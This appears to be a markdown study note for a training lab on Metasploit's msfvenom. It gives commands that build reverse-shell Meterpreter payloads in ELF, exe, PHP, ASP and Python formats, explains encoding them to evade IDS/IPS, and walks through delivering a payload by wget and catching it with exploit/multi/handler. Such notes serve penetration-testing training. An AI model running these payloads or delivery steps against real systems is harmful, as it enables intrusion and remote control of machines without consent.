 ## msfconsole: To generate the payloads
- `msfvenom - a Metasploit standalone payload generator.`
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- ` msfvenom --list` formats command can be used to list supported output formats.

## Encoder: 
- Can be use by msfvenom, `encode transforms the byte pattern, file format etc of Payload` used to avoid detection by IDS/IPS.
- eg: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64`
- with the `-e parameter. The PHP version of Meterpreter was encoded in Base64` 

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect.

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP (Remove php comments to make file executable)
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

### Note: All of the examples above are reverse payloads. This means we need to have the exploit/multi/handler module listening on attacking/local machine to work as a handler, need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same we have used when creating the msfvenom payload.

## Task1: Create Payload, Transfer to Target VM, Get Meterpreter
- Do ssh to Target VM > ssh username@targetVM_IP > sudo su
- Create Payload on Local VM > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Transfer the payload to Target VM > 
- - a. First Create a server on Local VM > python3 -m http.server 9000 (change permission of file eg. chmod 777 file_name)
- - b. Use on Target VM terminal or in ssh session wget http://LocalVM_IP/file_name.format
- Get a meterpreter session on the target machine > 
- - a. Start the Metasploit handler before executing the transfered payload on target VM: use exploit/multi/handler
- - b. set payloads(Specific to Linux), lhost, lport (check show option) (Use same lport, lhost what used while creating payload)
- - c. run > meterpreter session must have started after executing the "transfered payload" on target VM
  - d. we can switch to other session with `session`

 
